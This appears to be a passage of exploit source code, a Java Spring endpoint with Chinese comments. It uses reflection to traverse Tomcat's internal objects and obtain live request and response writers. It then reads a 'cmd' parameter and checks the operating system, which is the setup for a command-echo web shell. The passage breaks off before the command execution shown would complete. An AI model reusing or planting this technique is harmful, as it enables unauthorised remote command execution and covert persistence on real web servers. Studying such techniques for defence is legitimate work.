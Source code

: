 ```java
    @ResponseBody
    public void testDemo() throws IOException, ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
        //获取Tomcat CloassLoader context
        org.apache.catalina.loader.WebappClassLoaderBase webappClassLoaderBase = (org.apache.catalina.loader.WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
        org.apache.catalina.core.StandardContext standardContext = (org.apache.catalina.core.StandardContext) webappClassLoaderBase.getResources().getContext();

        //获取standardContext的context
        Field contextField = Class.forName("org.apache.catalina.core.StandardContext").getDeclaredField("context");
        contextField.setAccessible(true);
        org.apache.catalina.core.ApplicationContext ApplicationContext = (org.apache.catalina.core.ApplicationContext) contextField.get(standardContext);

        //获取ApplicationContext的service
        Field serviceField = Class.forName("org.apache.catalina.core.ApplicationContext").getDeclaredField("service");
        serviceField.setAccessible(true);
        org.apache.catalina.core.StandardService standardService = (org.apache.catalina.core.StandardService) serviceField.get(ApplicationContext);

        //获取StandardService的connectors
        Field connectorsField = Class.forName("org.apache.catalina.core.StandardService").getDeclaredField("connectors");
        connectorsField.setAccessible(true);
        org.apache.catalina.connector.Connector[] connectors = (org.apache.catalina.connector.Connector[]) connectorsField.get(standardService);

        //获取AbstractProtocol的handler
        org.apache.coyote.ProtocolHandler protocolHandler = connectors[0].getProtocolHandler();
        Field handlerField = org.apache.coyote.AbstractProtocol.class.getDeclaredField("handler");
        handlerField.setAccessible(true);
        org.apache.tomcat.util.net.AbstractEndpoint.Handler handler = (AbstractEndpoint.Handler) handlerField.get(protocolHandler);

        //获取内部类ConnectionHandler的global
        Field globalField = Class.forName("org.apache.coyote.AbstractProtocol$ConnectionHandler").getDeclaredField("global");
        globalField.setAccessible(true);
        RequestGroupInfo global = (RequestGroupInfo) globalField.get(handler);

        //获取RequestGroupInfo的processors
        Field processors = Class.forName("org.apache.coyote.RequestGroupInfo").getDeclaredField("processors");
        processors.setAccessible(true);
        java.util.List<RequestInfo> RequestInfolist = (java.util.List<RequestInfo>) processors.get(global);

        //获取Response，并做输出处理
        Field req = Class.forName("org.apache.coyote.RequestInfo").getDeclaredField("req");
        req.setAccessible(true);
        for (RequestInfo requestInfo : RequestInfolist) {
            org.apache.coyote.Request request1 = (org.apache.coyote.Request) req.get(requestInfo);
            org.apache.catalina.connector.Request request2 = (org.apache.catalina.connector.Request) request1.getNote(1);
            org.apache.catalina.connector.Response response2 = request2.getResponse();
            java.io.Writer w = response2.getWriter();

            String cmd = request2.getParameter("cmd");
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
```